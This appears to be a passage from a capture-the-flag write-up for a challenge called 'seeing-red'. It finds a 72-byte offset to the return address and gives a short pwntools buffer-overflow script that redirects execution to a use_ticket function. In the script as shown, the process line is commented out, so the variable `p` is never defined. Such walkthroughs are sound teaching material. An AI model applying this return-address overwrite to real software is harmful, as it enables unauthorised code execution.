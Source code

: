 ![](seeing-red/seeing-red-overflow.png)

Looks like we've got an offset of 72 chars before we control `rip`. Using this we can start writing an exploit. 

```python
from pwn import *

elf = context.binary = ELF("chal")
context.terminal = ['tmux', 'split-window', '-h']
#p = elf.process()

gdb_script = '''
init-pwndbg
'''
#gdb.attach(p, gdb_script)

offset = 72
payload = flat([
    'a' * offset,
    elf.symbols['use_ticket']
])

p.sendline(payload)
p.interactive()
```

